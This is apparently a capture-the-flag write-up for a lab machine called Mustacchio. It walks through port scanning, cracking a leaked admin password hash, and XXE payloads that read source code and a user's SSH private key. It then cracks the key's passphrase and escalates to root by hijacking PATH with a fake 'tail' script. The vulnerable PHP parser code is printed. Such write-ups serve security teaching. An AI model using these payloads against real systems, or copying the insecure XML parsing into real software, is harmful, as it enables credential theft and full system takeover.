

# Mustacchio

## Scanning the machine

I first scanned the machine using the following command: `nmap -v -sV -sC -p- -oA scans/nmap/nmap 10.10.201.227`. It took a while to scan and showed that port `22,80,8765` was available, so in the meantime I have done some manual analysis. Port 80 was first to be checked.

## The website (port 80)

I had opened the site with `view-source:<URL>` so that I can see the whole content of the page. Javascript was inserted from the directory `custom/js/mobile.js`, so I checked if there are other files contained withing that `custom` directory; there, I found this:



I downloaded the file and opened it with the command `sqlite3 users.bak`. The file contains a `users` table that has an account called `admin` with a hashed password:


From there I took the hashed value and thrown it into [crackstation](https://crackstation.net), which has a massive lookup (rainbow) table to compare the hash against:


We see that the hash has been found in the database.

## The login (port 8765)

After getting the login information, I fully got my scan:


We can see that port `8765` is an `nginx 1.10.3` web server which probably has a login page (since `http-title: Mustacchio | Login`). After trying `admin:bulldog19` as the needed user and password, I got into the site.

I have found another backup file when inspecting the source code of the page, which was located in `/auth/donotforget.bak`. I checked the contents of that file by using the following command: `curl -v "10.10.201.227:8765/auth/dontforget.bak"`. The result was:


We can see that the content is XML formatted.

I saved this information and poked at the form on the home page. It has said that `XML is needed` if I submit an empty payload. I have then copied the `dontforget.bak` data into the text area and submitted that instead, resulting in this:


We now know that we have control over this kind of XML structure:

```xml
<comment>
  <name></name>
  <author></author>
  <com></com>
</comment>
```

I attempted to try if XML entities are available by first checking if the parser even allows DTDs:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE funnies [<!ENTITY custom "entity_stuff">]>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&custom;</com>
</comment>
```

This was the result:


We can now try to see if EXTERNAL entites are enabled in this parser:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE funnies 
	[
		<!ENTITY custom SYSTEM "http://<my_ip>/ping">
	]
>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&custom;</com>
</comment>
```

The above XML did not cause a ping from the machine, but rather made it crash I think, since I cannot use the form anymore (burp waits a long time for a response, which doesn't come back). 

I restarted the machine and tried the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE funnies 
	[
		<!ENTITY custom SYSTEM "">
	]
>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&custom;</com>
</comment>
```

This did not make any error. Next I tried to use `expect://id` as the SYSTEM string for the `custom` entity, which did not succeed, but did not crash the service.

I then tried to use the `php://filter/convert.base64-encode/resource=<file>` as the SYSTEM string, and succeeded in extracting the `home.php` file, which (base64 decoded) has the following content:

```php
<?php require_once 'auth/sessman.php'; ?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mustacchio | Admin Page</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
    <link rel="stylesheet" href="assets/css/home.css">
    <script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
  }
</script>
</head>
<body>

    <!-- Barry, you can now SSH in using your key!-->

    

    <nav class="position-fixed top-0 w-100 m-auto ">
        <ul class="d-flex flex-row align-items-center justify-content-between h-100">
            <li>AdminPanel</li>
            <li class="mt-auto mb-auto"><a href="auth/logout.php">Logout</a></li>
        </ul>
    </nav>

    <section id="add-comment" class="container-fluid d-flex flex-column align-items-center justify-content-center">
        <h3>Add a comment on the website.</h3>

        <form action="" method="post" class="container d-flex flex-column align-items-center justify-content-center">
            <textarea id="box" name="xml" rows="10" cols="50"></textarea><br/>
            <input type="submit" id="sub" onclick="checktarea()" value="Submit"/>
        </form>
        <?php
 
  if(!empty($_POST["xml"])) {
    libxml_disable_entity_loader (false); 
    $xmlfile = $_POST["xml"];
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $comment = simplexml_import_dom($dom);
    $name = $comment->name;
    $author = $comment->author;
    $com = $comment->com;
    echo "<h3>Comment Preview:</h3><p>Name: $name</p><p>Author : $author</p><p>Comment :<br> $com<p/>";
  }
 
?>
    </section>


<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>
```

We can see how the XML parser operates.

After some time, I have figured out that since we also discovered a user called **barry**, we can read his ssh private key using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE comment 
	[
		<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/home/barry/.ssh/id_rsa">
	]
>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&payload;</com>
</comment>
```

This gives us the following response:


We can now use this key to try to login as barry.

### The SSH key

I used the command `ssh barry@<IP> -i ./barry_rsa` and was greeted with a passphrase. I tried `bulldog19` with no luck.

I attempted to install `john` and crack the private key using `ssh2john` and `john --wordlist=rockyou.txt ./id_rsa.hash` and cracked the password.

I logged into the machine using the `ssh` command described earlier and inputted the password, which allowed me to access the machine (**we find the `user` flag here**). The next thing I did is manually check the contents of the machine until I found a program in the `/home/joe` directory called `live_log` which had the **SETUID bit on**, which means that we always run the program as the owner regardless of the user that was used to run. 

When running `live_log` , we get the nginx log file content which is updated in real-time. I copied the `live_log` to my local machine with the command `scp -i barry_rsa barry@<MACHINE_IP>:/home/joe/live_log ./live_log` (ran on the host machine).

I then used `gdb` to find out how the program works and I found out that `system` was probably used:


I set a breakpoint in `main` using the command `b main` (same as 'breakpoint main') and then ran the program with the command `r` (same as 'run'). I then disassembled the binary by typing the command `disas` and got the following result:


We can see that contents in `0x1000002020` were moved to `rdi`, which is used as the first argument for functions, which in our case is `system`. We can check the contents of  `0x1000002020` by using the command `x/s <addr>`:


We can see that the program uses `tail` to read the access logs of nginx. We can also see that `tail` is used as a relative path, meaning that the program finds `tail` through the `PATH` environment variable which **we control**.

## Root

Now, since we know that the setuid program is possibly vulnerable to privilege escalation using the PATH environment variable, we can test this theory by first going to a directory we control; where I chose `/tmp/`. I have then created the following script called `tail` in `/tmp/`:

```bash
#!/bin/bash

/bin/bash
```

This `tail` program basically opens a BASH shell for us. I then used the command `chmod +x /tmp/tail` to make the BASH script executable. The next thing I did is append `/tmp` to the `PATH` environment variable, which looked like this:


*Important note* - If binaries are called without an absolute path (e.g.: `tail` or `bash`), the OS first searches for the binary in the **first** path element which `PATH` provides (which we appended in as `/tmp`, otherwise it would be `/usr/local/sbin` in our case), and if it doesn't find the binary, it then goes to the next path until it went through all the paths provided by `PATH` and it gives us an `<cmd>: command not found`.

We can now exploit the inner workings of `live_log` to give us root privileges by just executing `live_log`:


We now have complete control over the machine. We can find the `root` flag in the `/root/` directory.